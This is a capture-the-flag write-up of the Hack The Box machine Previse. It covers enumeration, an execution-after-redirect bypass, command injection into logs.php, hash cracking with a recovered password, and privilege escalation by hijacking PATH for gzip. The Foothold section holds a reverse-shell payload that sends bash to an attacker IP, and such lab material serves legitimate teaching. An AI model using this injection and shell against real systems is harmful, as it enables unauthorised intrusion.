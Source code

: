 ```yaml
---
title: "[HTB] Machine: Previse"
description: "[HTB] Machine: Previse"
date: 2023-08-08
menu:
  sidebar:
    name: "[HTB] Machine: Previse"
    identifier: htb-machine-Previse
    parent: htb-machines-linux
    weight: 10
hero: images/previse.png
tags: ["HTB", "execute-after-redirect", "source-code", "php injection", "command-injection", "path-hijack", "hashcat", "sudo"]
---
```


# Previse
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.11.104 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-15 20:03 BST
Nmap scan report for 10.10.11.104 (10.10.11.104)
Host is up (0.14s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.90 seconds

```
- Web Server

![](./1.png)

- If we check `burp` we can see that visiting `/` redirects to `login.php`
  - But `/` page also returns a valid full page
  - It's a [execution after redirect (EAR) vulnerability](https://owasp.org/www-community/attacks/Execution_After_Redirect_(EAR))

![](./2.png)

- `gobuster`
```
└─$ gobuster dir -u http://10.10.11.104 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt,php --no-error
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.104
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2023/08/16 16:07:17 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 302) [Size: 2801] [--> login.php]
/.php                 (Status: 403) [Size: 277]
/download.php         (Status: 302) [Size: 0] [--> login.php]
/login.php            (Status: 200) [Size: 2224]
/files.php            (Status: 302) [Size: 4914] [--> login.php]
/header.php           (Status: 200) [Size: 980]
/nav.php              (Status: 200) [Size: 1248]
/footer.php           (Status: 200) [Size: 217]
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.104/css/]
/status.php           (Status: 302) [Size: 2966] [--> login.php]
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.104/js/]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/accounts.php         (Status: 302) [Size: 3994] [--> login.php]
/config.php           (Status: 200) [Size: 0]
/logs.php             (Status: 302) [Size: 0] [--> login.php]
```
## Foothold
- If we check response from `/` page, we also see other endpoints:
  - `status.php`
  - `files.php`
  - `file_logs.php`
  - `accounts.php`

- So in order to check pages, we can intercept response and change status code to `200 OK`

![](./images/3.png)

- If we visit `accounts.php`, we see that we shouldn't access that page
  - Let's create a user

![](./images/4.png)

- Now we can check other pages
  - We found source files in `/files.php`
  - `logs.php` has `exec()` function call
    - `$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");`

![](./images/5.png)

- If we request data, we have

![](./images/6.png)

![](./images/7.png)

- I tried injecting `id` and other stuff, but had no success
  - But when I tried pinging my attack box, I got connection
  
![](./images/8.png)

- So now let's get reverse shell
  - `delim=comma;bash -c 'bash -i >%26 /dev/tcp/10.10.16.4/6666 0>%261'`
  - Upgrade shell with `python` or `script /dev/null -c bash`

![](./images/9.png)

## User
- Enumerate the box
  - Nothing found, except the access to `db`
    - `config.php` from source files

![](./images/10.png)

- Let's crack the hash
  - It might take a while
    - `hashcat -m 500 hash /usr/share/wordlists/rockyou.txt`
  - `m4lwhere:ilovecody112235!`
  - `ssh` using the creds

![](./images/11.png)

## Root
- Enumerate again
  - `sudo -l`

![](./images/12.png)

- Check the content
```
m4lwhere@previse:~$ cat /opt/scripts/access_backup.sh 
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

- `gzip` is used without full path
  - So let's create our script called `gzip`
  - Modify the `PATH` and run the script

![](./images/13.png)

![](./images/14.png)

![](./images/15.png)